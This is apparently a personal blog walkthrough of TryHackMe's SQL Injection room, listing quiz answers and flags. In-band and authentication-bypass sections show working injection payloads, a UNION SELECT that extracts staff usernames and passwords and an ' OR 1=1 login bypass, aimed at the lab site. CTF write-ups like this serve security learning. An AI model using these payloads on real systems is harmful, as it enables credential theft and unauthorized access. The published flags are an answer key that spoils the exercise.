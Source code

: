 +++
date = '2025-09-25T14:37:06+07:00'
title = 'TryHackMe - SQL Injection Room Walkthrough'
tags = ['TryHackMe', 'CTFs']
description = "Learn how to detect and exploit SQL Injection vulnerabilities"
draft = false

[cover]
  image = '/images/posts/tryhackme-sql-injection.png'
  alt = 'TryHackMe SQL Injection Room'
  caption = 'TryHackMe SQL Injection Room'
  relative = false
+++

This is my TryHackMe walkthrough, created to document my learning journey and share solutions with the community. The writeups include a mix of hints, step-by-step explanations, and final answers to help players who get stuck, while still encouraging independent problem-solving.

> SQL Injection Room - Learn how to detect and exploit SQL Injection vulnerabilities

## Overview

-   **Room URL:** [https://tryhackme.com/room/sqlinjectionlm](https://tryhackme.com/room/sqlinjectionlm)
-   **Difficulty:** Medium
-   **Time to complete:** 30

## Walkthrough

### 1. Brief

-   What does SQL stand for?<br />

**=> Answer: `Structured Query Language`**

### 2. What is a Database?

-   What is the acronym for the software that controls a database?<br />

**=> Answer: `DBMS`**

-   <p>What is the name of the grid-like structure which holds the data?<br /></p>

**=> Answer: `table`**

### 3. What is SQL?

-   What SQL statement is used to retrieve data?<br />

**=> Answer: `SELECT`**

-   <p>What SQL clause can be used to retrieve data from multiple tables?<br /></p>

**=> Answer: `UNION`**

-   <p>What SQL statement is used to add data?<br /></p>

**=> Answer: `INSERT`**

### 4. What is SQL Injection?

-   What character signifies the end of an SQL query?<br />

**=> Answer: `;`**

### 5. In-Band SQLi

-   What is the flag after completing level 1?<br />

-   Enter the url to get the martin's password:

```
https://website.thm/article?id=0 UNION SELECT 1,2, GROUP_CONCAT(CONCAT(username,':',password) SEPARATOR '<br>') FROM staff_users--
```

![Guide image](/images/posts/sql-injection-1.png)

**=> Answer: `THM{SQL_INJECTION_3840}`**

### 6. Blind SQLi - Authentication Bypass

-   What is the flag after completing level two? (and moving to level 3)<br />

-   Enter this value to the password field to bypass the login form

```
' OR 1=1;--
```

**=> Answer: `THM{SQL_INJECTION_9581}`**

### 7. Blind SQLi - Boolean Based

-   What is the flag after completing level three?<br />

**=> Answer: `THM{SQL_INJECTION_1093}`**

### 8. Blind SQLi - Time Based

-   What is the final flag after completing level four?<br />

**=> Answer: `THM{SQL_INJECTION_MASTER}`**

### 9. Out-of-Band SQLi

-   Name a protocol beginning with D that can be used to exfiltrate data from a database.<br />

**=> Answer: `DNS`**

### 10. Remediation

-   Name a method of protecting yourself from an SQL Injection exploit.<br />

**=> Answer: `Prepared Statements`**
